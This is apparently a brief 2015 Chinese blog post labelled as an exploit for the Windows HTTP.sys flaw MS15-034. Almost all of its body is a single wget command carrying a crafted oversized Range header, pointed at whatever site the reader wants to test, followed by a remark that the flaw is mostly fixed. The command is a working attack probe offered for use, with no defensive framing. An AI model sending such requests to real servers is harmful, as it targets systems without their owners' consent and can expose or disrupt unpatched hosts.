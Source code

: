 ```yaml
---
title: MS15-034 exp
author: admin
layout: post
date: 2015-08-12T11:00:02+00:00
url: /2015/08/12/ms15-034-exp.html
duoshuo_thread_id:
  - 1314126401913225226
categories:
  - exp
tags:
  - 安全漏洞

---
```

wget 一句话

<pre class="lang:default decode:true ">wget http://www.host.com --header="Range: bytes=0-18446744073709551615"

http://www.host.com 是你要测试的网站</pre>

&nbsp;

话说这个漏洞已经修复差不多了
